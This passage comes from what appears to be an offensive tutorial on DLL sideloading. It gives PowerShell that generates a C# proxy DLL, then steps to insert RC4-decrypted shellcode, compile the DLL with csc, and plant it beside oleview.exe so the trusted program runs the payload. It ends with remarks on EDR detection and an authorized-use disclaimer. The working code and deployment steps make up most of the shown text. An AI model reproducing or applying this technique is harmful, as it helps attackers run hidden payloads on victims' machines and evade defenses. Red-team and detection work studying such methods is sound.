 ```powershell
    public static extern IntPtr HeapAlloc(IntPtr hHeap, uint dwFlags, UIntPtr dwBytes);

    [DllImport("kernel32.dll", SetLastError = true)]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);

$(
    foreach ($function in $Functions) {
        "[DllExport(\"$function\", CallingConvention = CallingConvention.StdCall)] public static void $function() { Jeopardy(); }"
    }
)
}
"@

    return $template
}

$code = Generate-CSharpCode -Functions $Functions

# Write the generated code to a file
$code | Out-File -FilePath $OutputFile
Write-Host "C# program generated and saved to $OutputFile"
```

### **Step 3: Customize and Compile the C# Program**
1. **Add Shellcode**:
   - Insert your RC4-decrypted shellcode into the `shellcode` byte array within the `Jeopardy` method.

2. **Compile the C# Program**:
   - Compile the C# program using the `csc` command-line tool:
     ```bash
     csc /target:library /out:MimicDll.dll MimicDll.cs
     ```

3. **Deploy the DLL**:
   - Place the compiled DLL in the same directory as `oleview.exe` so that `oleview.exe` will load your DLL and invoke the functions, which will in turn call the `Jeopardy` method to execute the shellcode.

### **Summary of C# Code Components**:
- **DllExport Attribute**: This exports each of the required functions from your DLL so that `oleview.exe` can see and call them.
- **Jeopardy Method**: This method contains the logic for heap creation, shellcode injection, and execution.
- **HeapCreate and HeapAlloc**: These are used to allocate memory in the process's heap for the shellcode.

### **Considerations**:
- **Testing**: Ensure that the shellcode and the function signatures are correct. Incorrect signatures or calling conventions might cause the program to crash.
- **Detection**: Modern EDR/AV solutions can detect this type of behavior, so ensure this is used only in controlled environments with proper authorization.
- **Ethical Use**: This technique should only be used for ethical purposes, such as penetration testing with explicit permission.

